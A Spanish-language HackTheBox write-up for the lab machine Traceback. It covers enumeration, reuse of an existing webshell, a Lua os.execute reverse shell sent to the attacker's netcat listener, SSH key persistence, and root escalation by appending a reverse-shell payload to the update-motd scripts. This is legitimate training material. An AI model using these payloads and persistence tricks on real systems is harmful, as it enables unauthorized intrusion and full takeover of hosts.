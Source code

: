 ```yaml
---
title: HTB-TRACEBACK
author: Christian Gutierrez
date: 2020-11-19 14:10:00 -0500
categories: [HackTheBox, Easy]
tags: [HTB]
image: /assets/htb/01_traceback/portada.png
---
```


## Decripción del entorno
- Atacante
    - OS: Kali Linux
    - IP: 10.10.15.14
- Maquina Objetivo
    - OS: Linux
    - IP: 10.10.10.181
    - Dificultad: 4.8/10 **Easy**
    - URL: [**TraceBack**](https://www.hackthebox.eu/home/machines/profile/233)
## Enumeración
Se realiza la enumeración habitual para el reconocimiento e identificación de los puertos abiertos en el sistema: 
```console
$ nmap -sS -sV -sC -oN nmap_traceback 10.10.10.181
```
![Escaneo con Nmap](/assets/htb/01_traceback/01_nmap_scan.png)
_Resultado escaneo con nmap_

Se accede al puerto 80 y se infiere por contexto que el servidor ya tiene un WebShell, la cual hay que utilizar para continuar con el proceso de explotación. 
![Puerto 80](/assets/htb/01_traceback/02_puerto_80.png)
_Pagina web desplegada en el puerto 80_

Se saca un listado de las WebShell más conocidas <https://github.com/TheBinitGhimire/Web-Shells>, y se realiza un barrido utilizando wFuzz para identificar si alguna se encuentra persistente en el servidor: 
```console
$ wfuzz -w htb/01_traceback/webshells.dict --hc 404 http://10.10.10.181/FUZZ
```
- cmd.php
    - Parametro: ?cmd=**COMANDO**
- smevk.php
    - User: **admin**
    - Password: **admin**

Una vez identificadas, se procede a validar el usuario y los privilegios que se tienen para la ejecución de comandos.
![WebShell Básica](/assets/htb/01_traceback/03_cmd_comandos_basicos.png)
_usando shell cmd.php con comandos pwd, whoami e ifconfig_

### Usuarios de bajos privilegios
- webadmin [**Hacked**]
- sysadmin

Desde el usuario webadmin vemos que tenemos permisos para ejecutar un comando como el usuario sysadmin: 
```console
$ sudo -l 
/home/sysadmin/luvit
```
De lo anterior se identifica que corresponde a un servicio NodeJS para el lenguaje Lua - [luvit](https://luvit.io/) por lo que conserva su sintaxis y además es posible utilizarla para ejecutar scripts **.lua** diseñados por nosotros; vamos a utilizar el metodo `os.execute()` que nos permite ejecutar comandos de sistema operativo [LUA](https://stackoverflow.com/questions/13270346/lua-os-execute-does-not-work)

## Explotación

Una vez identificado el vector de ataque, vamos a ejecutar una Shell reversa con **nc** a través de la ejecución privilegiada de `/home/sysadmin/luvit`, por lo que creamos el siguiente archivo **lua** en `/tmp/`:

```lua
os.execute("rm /tmp/cdf;mkfifo /tmp/cdf;cat /tmp/cdf|/bin/sh -i 2>&1|nc 10.10.15.14 4545 >/tmp/cdf")
```

Ejecutamos el archivo con los privilegios de sysadmin de la siguiente manera: 
```console
$ sudo -u sysadmin /home/sysadmin/luvit /tmp/d.lua
```
Recibimos la conexión inversa mediante NetCat:
```console
$ nc -nvlp 4545
```
![Reverse Shell](/assets/htb/01_traceback/04_reverse_shell.png)
_Reverse Shell con privilegios del usuario sysadmin_

Aunque ya tenemos la shell con los privilegios **Sysadmin** que nos permiten la lectura de la flag `user.txt`, sería más comodo poder conectarnos directamente al servicio SSH (22), para así tener más estabilidad y propiedades en la consola; para lograr esto, debemos agregar nuestra llave pública SSH al archivo `authorized_keys` del servidor victima, así, sin proporcionar credenciales podemos hacer uso de este. 
```console
$ echo “test” >> authorized_keys
Permission denied
```
Como no podemos realizarlo desde la shell que tenemos actualmente, creamos otro archivo .LUA que cambie los privilegios del archivo "" y agregue nuestra key: 
```lua
file = io.open("/home/sysadmin/.ssh/authorized_keys", "w")
file:write("ssh-rsa AAAAB3NzaC1yc2EAAAADA/.../zWoMYWXUF8ZIOQp0= csl@support")
file:close()
```
Ejecutamos el nuevo script LUA: 
```console
$ sudo -u sysadmin /home/sysadmin/luvit /tmp/d2.lua
```
![SSH](/assets/htb/01_traceback/05_ssh_access.png)
_Acceso por SSH al usuario Sysadmin_

## Elevación de privilegios

Revisando los procesos en ejecución del sistema `ps aux`, vemos que el usuario root realiza la ejecución recurrente del siguiente comando. 
```console
$ /bin/sh -c sleep 30 ; /bin/cp /var/backups/.update-motd.d/* /etc/update-motd.d/
```
Lo que inicialmente parece una copia de archivos normal entre directorios cada 30 segundos, nos revela una pista en los permisos del directorio `/etc/update-motd.d/`:
![SSH](/assets/htb/01_traceback/06_priv_etc_update.png)
_Permisos del directorio /etc/update-motd.d/_

Y recordemos que dicho directorio corresponde a los scripts de personalización de inicio o acceso mediante SSH, así pues, cada uno de esos script’s mostrará información o será ejecutado por el usuario **root** cuando alguien se conecta mediante SSH. De esta manera, si logramos algún cambio en estos scripts, lo podremos ejecutar mediante el acceso a SSH tal como ya lo hemos hecho previamente. 

Considerando lo anterior, agregamos el comando para que cuando se ejecute nos permita una conexión inversa a nuestro equipo, por el puerto 4545. 
```console
$ echo "rm /tmp/cdf;mkfifo /tmp/cdf;cat /tmp/cdf|/bin/sh -i 2>&1|nc 10.10.15.14 4545 >/tmp/cdf" >> /etc/update-motd.d/00-header
```
Una vez realizado, accedemos al servicio SSH con el usuario Sysadmin (para activa nuestro payload) y a su vez, recibimos la conexión inversa en nuestro equipo, esta vez con privilegios de **root**. 

Otra forma de acceder sin utilizar la shell reversa, implicaría el mismo principio de habilitar nuestras llaves en el servicio SSH del usuario root: 

```console
sysadmin@traceback:/etc/update-motd.d$ echo "cp /home/sysadmin/.ssh/authorized_keys /root/.ssh/" >> 00-header 
```